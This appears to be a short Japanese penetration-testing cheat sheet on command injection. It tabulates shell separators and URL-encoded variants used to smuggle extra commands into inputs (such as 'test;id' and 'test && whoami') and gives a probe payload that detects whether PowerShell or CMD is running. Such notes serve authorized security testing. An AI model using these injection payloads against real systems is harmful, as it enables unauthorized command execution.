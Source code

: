 ## Bypassing Command
全部試行すること

| 記号   | 用途             | 試行例                      | 備考      |
| ---- | -------------- | ------------------------ | ------- |
| ;    | コマンド区切り        | test;id                  | よく使われる  |
| &&   | 前のコマンド成功時に次を実行 | test && whoami           | linux   |
| \|\| | 前の失敗時に次を実行     | false \|\| whoami        |         |
| \|   | パイプ            | ipconfig \| findstr IPv4 |         |
| `    | コマンド置換         | ``` `commnad` ```        | linux   |
| $    | コマンド置換         | $(command)               | linux   |
| "    | ダブルクォート有無で変化   | "command"                |         |
| '    | クォート有無で変化      | 'command'                |         |
| ^    | CMDでのエスケープバイパス | ^&                       | windows |
| \    | エスケープや改行改行継続   | echo line1\necho line2   |         |
| %0a  | 改行のURLエンコード    | %0aCOMMAND               |         |
| %3B  | ;のURLエンコード     | test%3Bid                |         |
| %26  | &のURLエンコード     | test%26id                |         |

## Check PowerShell or CMD
plain comand
```
(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell
```

URL encofing
```
(dir%202%3E%261%20*%60%7Cecho%20CMD)%3B%26%3C%23%20rem%20%23%3Eecho%20PowerShell
```